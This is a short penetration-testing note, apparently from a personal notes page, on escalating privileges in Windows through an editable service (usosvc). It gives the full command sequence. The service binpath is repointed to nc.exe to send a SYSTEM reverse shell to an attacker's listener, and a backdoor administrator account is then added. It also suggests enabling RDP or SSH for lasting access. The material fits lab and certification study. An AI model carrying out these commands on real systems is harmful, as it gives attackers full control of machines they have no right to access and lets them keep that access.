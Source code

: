 #post-exploitation
# Editable Service

If you find a service that is editable (WinPEAS can help here to find such services) you can edit the binpath to point to nc.exe to get a reverse shell. 

Steps also described here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc

Note: in both my experiences using this, this does get shell, but it closes in a few seconds.

  1. Upload `nc.exe` to a writable directory.
  2. `sc config usosvc binpath= "C:\Inetpub\wwwroot\nc.exe -nv <kali_IP> 9988 -e C:\Windows\System32\cmd.exe"`
  3. `sc config usosvc  obj= ".\LocalSystem" password= ""`
     - I didn't need this second time using it
  5. `sc config usosvc start= "demand"`
  6. `nc -lvp 9988` (setup listener on kali)
  7. `net start usosvc`
  8. R00T!
	
Since shell closes soon, add new admin user:
1. `net user hacker h@ck3r%93 /add`
2. `net localgroup administrators hacker /add`

Now RDP/ssh with new creds (if services are available, or you can open them yourself):
1. `rdesktop <target>`
2. R00T!

The shell closes due to a Windows timeout variable in the registry that defines how long to wait for a service to response. If you're in a position to edit that (i.e. ssh/rdp not enabled) this would stabilize the shell.
If you don’t want to edit the registry, since you're admin for a bit with this shell, you could try enabling RDP or SSH.